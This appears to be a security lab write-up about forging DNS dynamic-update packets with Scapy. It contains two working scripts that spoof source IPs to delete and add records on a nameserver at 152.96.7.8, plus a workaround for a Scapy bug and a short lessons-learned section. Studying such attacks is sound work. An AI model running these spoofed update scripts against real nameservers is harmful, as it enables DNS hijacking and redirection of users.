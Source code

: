 # 05 - Scapy dns hostname change

The attack was done from outside and without VPN.
## Delete DNS
```python
import sys
from faker import Faker
from scapy.all import *
from scapy.layers.dns import *
from scapy.layers.inet import IP, ICMP, TCP


faker = Faker()

# IP
src = faker.ipv4()
dst = "152.96.7.8"

# UDP
sport = 5353
dport = 53

# DNS
rr = "hacker10.evil.zz"
zone = rr[rr.find(".") + 1:]

def isRecordPresent(ns, dns):
    answer = sr1(IP(dst=ns)/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname=dns)),verbose=0)
    return hasattr(answer[DNS].an, "rdata")

# https://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4
# TYPE: ANY = * = 255
# Class: ANY = * = 255

p=IP(src=src, dst=dst) / UDP(sport=sport, dport=dport) / DNS(
        opcode=5,
        rd=0,
        qd=[DNSQR(qname=zone, qtype="SOA")], 
        an=[DNSRR(rrname=rr, type=255, rclass="ANY", ttl=0, rdata="")],
        ns=[DNSRR(rrname=rr, type=255, rclass="ANY", ttl=0, rdata="")])

send(p)
if not isRecordPresent(dst, rr):
    print("Attack successful")
else:
    print("Attack failed")

```

## Add DNS
```python
import sys
import time
from faker import Faker
from scapy.all import *
from scapy.layers.dns import *
from scapy.layers.inet import IP, ICMP, TCP

faker = Faker()

# IP
src = faker.ipv4()
dst = "152.96.7.8"

# UDP
sport = 5353
dport = 53

# DNS
rr = "hacker10.evil.zz"
type="A"
rrdata = "127.0.0.1"
zone = rr[rr.find(".") + 1:]
ttl = 60 * 60 * 24

def isRecordPresent(ns, t, dns):
    answer = sr1(IP(dst=ns)/UDP(dport=53)/DNS(
        rd=1,
        qd=DNSQR(qname=dns)),
        verbose=0)
    return hasattr(answer[DNS].an, "rdata")

print("Using source IP: {0}".format(src))
print("Sending delete for existing RRs")

delpacket=IP(src=src, dst=dst) / UDP(sport=sport, dport=dport) / DNS(
        opcode=5, # Update
        rd=0, 
        qd=[DNSQR(qname=zone, qtype="SOA")], 
        an=[DNSRR(rrname=rr, type=255, rclass="ANY", ttl=0, rdata="")],
        ns=[DNSRR(rrname=rr, type=255, rclass="ANY", ttl=0, rdata="")])
send(delpacket)

print("Adding: {0} {1} IN {2} {3}".format(rr,ttl, type, rrdata))
addpacket=IP(src=src, dst=dst) / UDP(sport=sport, dport=dport) / DNS(
        opcode=5, # Update
        rd=0,
        qd=[DNSQR(qname=zone, qtype="SOA")],
        an=[DNSRR(rrname=rr, type=255, rclass=0x00fe, ttl=0, rdata="")],
        ns=[DNSRR(rrname=rr, type=type, ttl=ttl, rdata=rrdata)])

send(addpacket)

if isRecordPresent(dst, type, rr):
    print("Attack successful")
else:
    print("Attack failed")

```

## Security questions

#### dyndns_add
The function dyndns_add works as shown in the screenshot.  
![](00.png)

#### dyndns_del
This function does not works, because of a missing ALL type(https://github.com/secdev/scapy/blob/2c261e89e2a20c4636b05355ca7c8fe2d6141836/scapy/layers/dns.py#L479)

The function header has defined the type "ALL", according https://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4.
```python
dyndns_del(nameserver, name, type="ALL", ttl=10):
```

But there is no definition in the https://github.com/secdev/scapy/blob/2c261e89e2a20c4636b05355ca7c8fe2d6141836/scapy/layers/dns.py#L47 for ALL/*

Therefore it's a mistake in the source file and should be fixed by the developers. As workaround the following can be executed.
```python
dyndns_del("152.96.7.8", "hacker10.evil.zz", 255)
```
![](00_1.png)

## Lessoned learned
AXFR should not only be used with a IP restriction, it should have a authentication step or at least a 3-way handshake.

Overall it's astonishing that it's so easy to fake a IP packets with such a tool.
